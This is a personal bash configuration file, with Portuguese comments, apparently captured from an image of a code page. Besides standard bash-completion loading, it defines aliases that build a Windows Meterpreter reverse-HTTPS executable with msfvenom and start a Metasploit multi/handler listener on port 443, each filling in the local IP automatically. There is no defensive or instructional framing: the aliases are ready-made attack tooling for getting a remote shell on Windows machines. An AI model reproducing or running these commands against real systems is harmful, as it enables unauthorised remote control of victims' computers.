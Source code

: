 # ~/.bashrc completo e personalizado

# Configurações padrão do bashrc
# Se não estiver em modo POSIX, carregue bash-completion (auto-completar)
if ! shopt -oq posix; then
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi

# Outras funções padrão do sistema podem estar aqui (não apagar esta parte)

# ================================
# Customizações pessoais
# ================================

# Alias para iniciar o servidor HTTP local
alias servidor='bash ~/start_http_server.sh'

# Alias dinâmico para iniciar o listener do Metasploit detectando IP automaticamente
alias listener='IP=$(hostname -I | awk "{print $1}"); msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_https; set LHOST $IP; set LPORT 443; exploit"'

# Alias para gerar payload automaticamente (IP dinâmico + porta 443)
alias payload='IP=$(hostname -I | awk "{print $1}"); msfvenom -p windows/meterpreter/reverse_https LHOST=$IP LPORT=443 -f exe -o ~/payload.exe && echo "Payload gerado em ~/payload.exe com IP $IP e porta 443"'

